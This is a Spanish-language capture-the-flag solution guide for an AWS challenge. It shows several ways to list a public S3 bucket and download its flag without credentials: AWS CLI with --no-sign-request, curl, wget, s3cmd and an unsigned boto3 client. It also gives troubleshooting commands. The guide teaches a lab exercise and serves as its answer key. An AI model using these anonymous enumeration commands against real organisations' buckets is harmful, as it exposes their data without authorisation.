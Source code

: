 # Challenge 01 - AWS Public Storage Solution

## Solución del Desafío

### Paso a Paso para Candidatos

Una vez que tengas los outputs del despliegue de Terraform, sigue estos pasos para enumerar el bucket S3 y obtener la flag:

#### Información Disponible
Con base en los outputs de Terraform, tienes:
```
aws_flag_url = "http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com/flag.txt"
aws_s3_bucket_name = "ctf-25-website-c7b06639"
aws_s3_website_endpoint = "http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com"
```

#### Método 1: Enumeración con AWS CLI (Recomendado)

**Paso 1: Listar objetos del bucket**
```bash
# Listar todos los objetos en el bucket público
aws s3 ls s3://ctf-25-website-c7b06639 --no-sign-request

# Salida esperada:
# 2024-01-15 10:30:45        123 flag.txt
# 2024-01-15 10:30:45       1024 index.html
```

**Paso 2: Descargar y ver el contenido de la flag**
```bash
# Descargar la flag directamente a stdout
aws s3 cp s3://ctf-25-website-c7b06639/flag.txt - --no-sign-request

# O descargar a un archivo local
aws s3 cp s3://ctf-25-website-c7b06639/flag.txt ./flag.txt --no-sign-request
cat flag.txt
```

**Paso 3: Verificar otros archivos (opcional)**
```bash
# Ver el contenido del index.html
aws s3 cp s3://ctf-25-website-c7b06639/index.html - --no-sign-request
```

#### Método 2: Acceso Web Directo

**Paso 1: Acceder al sitio web**
```bash
# Usar curl para acceder al endpoint web
curl http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com

# O abrir en navegador
open http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com
```

**Paso 2: Acceder directamente a la flag**
```bash
# Descargar la flag vía HTTP
curl http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com/flag.txt

# O usar wget
wget -O - http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com/flag.txt
```

#### Método 3: Enumeración con herramientas de terceros

**Usando s3cmd:**
```bash
# Instalar s3cmd si no está disponible
pip install s3cmd

# Listar objetos (configuración anónima)
s3cmd ls s3://ctf-25-website-c7b06639 --no-ssl

# Descargar flag
s3cmd get s3://ctf-25-website-c7b06639/flag.txt --no-ssl
```

**Usando boto3 (Python):**
```python
import boto3
from botocore import UNSIGNED
from botocore.config import Config

# Cliente S3 sin autenticación
s3 = boto3.client('s3', config=Config(signature_version=UNSIGNED))

# Listar objetos
response = s3.list_objects_v2(Bucket='ctf-25-website-c7b06639')
for obj in response.get('Contents', []):
    print(f"{obj['Key']} - {obj['Size']} bytes")

# Descargar flag
response = s3.get_object(Bucket='ctf-25-website-c7b06639', Key='flag.txt')
flag_content = response['Body'].read().decode('utf-8')
print(f"Flag: {flag_content}")
```

#### Método 4: Enumeración Manual con Browser

1. **Acceder al bucket via navegador:**
   - URL: `http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com`
   - Explorar el contenido disponible

2. **Acceso directo a la flag:**
   - URL: `http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com/flag.txt`

### Comandos de Verificación

**Verificar permisos del bucket:**
```bash
# Intentar obtener la política del bucket
aws s3api get-bucket-policy --bucket ctf-25-website-c7b06639 --no-sign-request

# Verificar configuración de sitio web
aws s3api get-bucket-website --bucket ctf-25-website-c7b06639 --no-sign-request

# Verificar ACL del bucket
aws s3api get-bucket-acl --bucket ctf-25-website-c7b06639 --no-sign-request
```

### Formato de la Flag
```
CLD[UUID]
```

### Puntos de Aprendizaje

1. **Buckets S3 públicos**: Los buckets con políticas de acceso público permiten enumeración sin autenticación
2. **Website hosting**: Los buckets configurados como sitios web estáticos son accesibles vía HTTP
3. **Enumeración**: Múltiples métodos para acceder al contenido (AWS CLI, curl, navegador, herramientas de terceros)
4. **Sin autenticación**: El flag `--no-sign-request` permite acceso anónimo a recursos públicos

## Troubleshooting de Enumeración

### Problemas Comunes

**Error: "NoSuchBucket" al enumerar**
```bash
# Verificar que el bucket existe
aws s3api head-bucket --bucket ctf-25-website-c7b06639 --no-sign-request

# Si falla, verificar el nombre exacto del bucket en los outputs de Terraform
terraform output aws_s3_bucket_name
```

**Error: "Access Denied" durante enumeración**
```bash
# Verificar si el bucket permite acceso público
aws s3api get-bucket-policy --bucket ctf-25-website-c7b06639 --no-sign-request

# Intentar acceso web directo si AWS CLI falla
curl -I http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com
```

**Error: "SSL Certificate" con herramientas de terceros**
```bash
# Para s3cmd, usar --no-ssl
s3cmd ls s3://ctf-25-website-c7b06639 --no-ssl

# Para curl, usar --insecure si es necesario
curl --insecure http://ctf-25-website-c7b06639.s3-website-us-east-1.amazonaws.com/flag.txt
```

**Timeout o conexión lenta**
```bash
# Verificar conectividad básica
ping s3.amazonaws.com

# Usar región específica si hay problemas
aws s3 ls s3://ctf-25-website-c7b06639 --region us-east-1 --no-sign-request
```

**Flag no encontrada**
```bash
# Listar todos los objetos para verificar estructura
aws s3 ls s3://ctf-25-website-c7b06639 --recursive --no-sign-request

# Verificar si la flag está en subdirectorios
aws s3 ls s3://ctf-25-website-c7b06639/ --recursive --no-sign-request | grep -i flag
```
